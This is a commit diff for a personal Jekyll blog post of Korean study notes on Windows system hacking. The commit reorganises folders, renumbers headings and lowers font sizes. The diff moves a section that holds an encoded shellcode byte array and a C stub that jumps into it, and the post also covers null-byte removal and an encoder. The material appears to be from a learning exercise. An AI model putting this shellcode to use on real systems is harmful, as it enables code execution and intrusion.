

Before and after one commit to vyzil/vyzil.github.io, a Jekyll site: the page built from _posts/System_Hacking/2020-03-05-Window_System_Hacking_01.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
made sub-folder in pages
pages directory has sub-folder (divided in categories)
+ lower font-size

````diff
--- a/_posts/2020-03-05-Window_System_Hacking_01.md
+++ b/_posts/System_Hacking/2020-03-05-Window_System_Hacking_01.md
@@ -4,10 +4,12 @@
     - System Hacking
 tags:
     - Windows
-    - System Hacking
+    - System
+    - Hacking
 ---
-"윈도우 시스템 해킹 가이드" 책을 보면서 작성한 코드 정리
-#### 기본 쉘코드
+[윈도우 시스템 해킹 가이드 / 김현민 저] <br/>
+위의 책을 보면서 실습한 내용의 코드를 정리함.
+#### 1. 기본 쉘코드
 ```c
 int _tmain(int argc, _TCHAR* argv[]) {
     char cmd[4] = {'c', 'm', 'd', '\0'};
@@ -15,7 +17,7 @@
     ExitProcess(1);
 }
 ```
-#### op코드 및 단순화
+#### 2. op코드 및 단순화
 ```c
 int _tmain(int argc, _TCHAR* argv[]) {
 	__asm {
@@ -38,7 +40,7 @@
 	};
 }
 ```
-#### Null byte 제거
+#### 3. Null byte 제거
 ```c
 char shellcode[] =
     "\x33\xDB"
@@ -177,7 +179,32 @@
 	}
 }
 ```
-#### 쉘코드 인코더 (python3)
+
+#### 6. 쉘코드 인코딩
+```c
+char shellcode[] =
+    "\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x9f\xbf\x58\x16\x30\x76"
+    "\x31\x7e\x13\x83\xc6\x04\xe2\xf8\xd3\xfa\xdb\x46\x1a\xbb\x50\x75"
+    "\x80\x9d\xc3\x45\x98\x25\xcf\xda\x5b\xee\xb4\xb6\x2d\xef\xb9\x0b"
+    "\x48\x77\x09\x0b\x48\x63\xd5\x79\xef\x42\x61\x88\xd3\x6b\x28\xfd"
+    "\x2f\x0a\x33\x85\xd3\x2a\xa6\x75\xa3\x9d\xf7\xb5\x6b\xd6\xb9\x33"
+    "\x54\xd0\x75\x7a\x3b\xd0\x75\x7b\x35\xd0\x75\x78\x3c\x72\x91\x46"
+    "\x58\x16\x30\xfd\x18\x1a\xbb\x36\x4c\x9d\x28\xfd\x43\x9d\x6b\x66"
+    "\xd3\x6d\x0c\x75\xa3\x9d\x4f\x0e\x5b\xed\xb9\x0b\x40\x9d\x47\x56"
+    "\x5b\xe5\xbb\x39\x7c\x15\xfb\x45\x8a\x76\x03\x89\x3e\xa9\x83\x74"
+    "\xb0\x91\xcf\x89\xa7\x9f\x75\x56\x39\x25\xcf\x10\xe7\x6f\x34\x9e"
+    "\x20\xe9\xcf\x89\xd1\x53\x14\x45\x98\x46\xbd\x33\x54\x46\xcf\x23"
+    "\x78\x25\xf0\x26\xa7\x43\x14";
+
+int _tmain(int argc, _TCHAR* argv[]) {
+	int* shell = (int*)shellcode;
+	__asm {
+		jmp shell
+	}
+}
+```
+
+#### * 쉘코드 인코더 (python3)
 ```python
 import os, sys, random
 import struct
@@ -260,26 +287,3 @@
 		print("\"")
 ```
 책에서는 python2를 사용하여 python3로 위와 같이 포팅함. 쉘코드에 `\x8b\xec`를 추가한 이유는 이후 stack buffer overflow 실습에서 스택이 꼬인 상태로 exploit하게 되면 쉘코드가 동작하지 않아서 추가함.
-#### 인코딩된 쉘코드
-```c
-char shellcode[] =
-    "\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x9f\xbf\x58\x16\x30\x76"
-    "\x31\x7e\x13\x83\xc6\x04\xe2\xf8\xd3\xfa\xdb\x46\x1a\xbb\x50\x75"
-    "\x80\x9d\xc3\x45\x98\x25\xcf\xda\x5b\xee\xb4\xb6\x2d\xef\xb9\x0b"
-    "\x48\x77\x09\x0b\x48\x63\xd5\x79\xef\x42\x61\x88\xd3\x6b\x28\xfd"
-    "\x2f\x0a\x33\x85\xd3\x2a\xa6\x75\xa3\x9d\xf7\xb5\x6b\xd6\xb9\x33"
-    "\x54\xd0\x75\x7a\x3b\xd0\x75\x7b\x35\xd0\x75\x78\x3c\x72\x91\x46"
-    "\x58\x16\x30\xfd\x18\x1a\xbb\x36\x4c\x9d\x28\xfd\x43\x9d\x6b\x66"
-    "\xd3\x6d\x0c\x75\xa3\x9d\x4f\x0e\x5b\xed\xb9\x0b\x40\x9d\x47\x56"
-    "\x5b\xe5\xbb\x39\x7c\x15\xfb\x45\x8a\x76\x03\x89\x3e\xa9\x83\x74"
-    "\xb0\x91\xcf\x89\xa7\x9f\x75\x56\x39\x25\xcf\x10\xe7\x6f\x34\x9e"
-    "\x20\xe9\xcf\x89\xd1\x53\x14\x45\x98\x46\xbd\x33\x54\x46\xcf\x23"
-    "\x78\x25\xf0\x26\xa7\x43\x14";
-
-int _tmain(int argc, _TCHAR* argv[]) {
-	int* shell = (int*)shellcode;
-	__asm {
-		jmp shell
-	}
-}
-```
--- a/_sass/minimal-mistakes/_page.scss
+++ b/_sass/minimal-mistakes/_page.scss
@@ -79,7 +79,7 @@
 
 .page__lead {
   font-family: $global-font-family;
-  font-size: $type-size-4;
+  font-size: $type-size-6;
 }
 
 .page__content {
@@ -108,7 +108,7 @@
   p,
   li,
   dl {
-    font-size: 1em;
+    font-size: 0.8em;
   }
 
   /* paragraph indents */
--- a/_sass/minimal-mistakes/_reset.scss
+++ b/_sass/minimal-mistakes/_reset.scss
@@ -8,18 +8,18 @@
   /* apply a natural box layout model to all elements */
   box-sizing: border-box;
   background-color: $background-color;
-  font-size: 16px;
+  font-size: 14px;
 
   @include breakpoint($medium) {
+    font-size: 16px;
+  }
+
+  @include breakpoint($large) {
     font-size: 18px;
   }
 
-  @include breakpoint($large) {
+  @include breakpoint($x-large) {
     font-size: 20px;
-  }
-
-  @include breakpoint($x-large) {
-    font-size: 22px;
   }
 
   -webkit-text-size-adjust: 100%;
````
Also changed, not shown: other parts of _posts/System_Hacking/2020-03-05-Window_System_Hacking_01.md (+2 -2 lines), _posts/ETC/2020-03-05-Eng_Test.md (renamed from _posts/2020-03-05-Eng-Test.md, +0 -1 lines), _posts/ETC/2020-03-05-Kor_Test.md (renamed from _posts/2020-03-05-Kor-Test.md, +0 -1 lines), _posts/Web/2020-03-05-Blog_01.md (added, +46 -0 lines).
